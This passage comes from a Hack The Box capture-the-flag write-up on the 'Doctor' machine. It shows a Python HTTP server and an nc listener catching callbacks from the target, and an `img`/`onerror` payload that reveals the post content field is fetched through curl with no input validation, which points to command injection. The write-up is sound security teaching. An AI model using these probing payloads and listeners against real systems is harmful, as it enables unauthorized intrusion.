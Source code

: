 ```shell
cfx:  ~/Documents/htb/doctor
→ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [14/Nov/2020 19:18:32] code 404, message File not found
10.10.10.209 - - [14/Nov/2020 19:18:32] "GET /test HTTP/1.1" 404 -
10.10.10.209 - - [14/Nov/2020 19:20:08] code 404, message File not found
```

Although it's not clear how the request was parsed at this point because the hit on the python server was received instantly as soon as post was submitted without any delay.

To see the complete request, we'll change the port and send the payload again as `<img src="http://10.10.14.27:8080/test" onerror=alert(1)>` and observe the request on the nc listener:

```
cfx:  ~/Documents/htb/doctor
→ nc -lvnp 8080
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:32800.
GET /test HTTP/1.1
Host: 10.10.14.27:8080
User-Agent: curl/7.68.0
Accept: */*
```
Interestingly, it's showing curl as the User-agent, it appears the content field is parsing the content directly via curl command.

On sending a simple web server link inside the content field we do see the hit again our python server, apparently there is no input validation and the content are directly parsed via Curl:

![cmdi1](/assets/img/Posts/Doctor/cmdi1.png)
